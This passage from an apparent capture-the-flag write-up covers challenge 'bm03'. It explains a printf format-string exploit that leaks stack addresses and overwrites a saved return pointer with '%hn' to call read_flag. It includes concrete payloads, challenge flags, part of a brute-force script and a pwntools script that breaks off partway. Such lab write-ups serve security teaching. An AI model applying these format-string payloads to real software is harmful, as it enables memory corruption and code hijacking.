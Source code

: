 ```python


tasks = list(itertools.combinations(string.printable,2))

pool = Pool(processes=8)
for _ in tqdm.tqdm(pool.imap_unordered(check, tasks), total=len(tasks)):
    pass
```

i used this script to check every printable 2 char combination to find vulnerabilities.

flag: `tRUNkated-EveRYTHinG-6761`


## bm03

this exploit centered around a printf vulnerability which could be found in the transaction dialog.  After a valid transaction it would print out the user name directly through through printf and as such was vulnerable to a string format exploit.  

My exploit was in two parts - one to leak the stack address and program base and one to take advantage of the %n string formatter to write the address of the read_flag function to the saved return pointer. 

my first payload was `%x.%364$x` which leaked the address of a variable on the stack and a pointer to something in the program code.  I determined the offsets from the base and used these values to find the location of EBP in the account menu function and the program base.  

I then used a payload like `%{address of read_flag}x%333$hn` to overwrite the return pointer.  the 333rd "argument" pointer to the first four bytes of the reference argument so I sent the address of the return pointer as the reference argument.  The goal was to pad out the left with a bunch of spaces matching the address of read_flag.  This value would then be written to the return pointer, allowing me to read the flag.  

Once the return pointer was overwritten I just had to return and it would load read_flag.  

The server wasn't running aslr so my address leaking exploit ended up being useless.  Good thing because the server was slow and I couldn't manage to leak address and then get the flag in the same session.  

```python
from pwn import *

context.terminal = ['termite', '-e']

account_id_counter = 0

def recv_input():
	x = p.recvuntil(":>")
	# print(x)

p = process('./bm03', env = {"TERM": "xterm-256color", "SHELL": "/usr/bin/zsh"})
# p = remote('bm03.allyourbases.co', 9010)
# p = gdb.debug('./bm03', env = {"TERM": "xterm-256color", "SHELL": "/usr/bin/zsh"})

e = ELF('./bm03')

recv_input()
p.sendline('2')
recv_input()

# creating user to leak esp

p.sendline('%x.%{}$x'.format(91*4)) # 91*4 is stack offset to something in program memory 
recv_input()
p.sendline('1')
recv_input()
```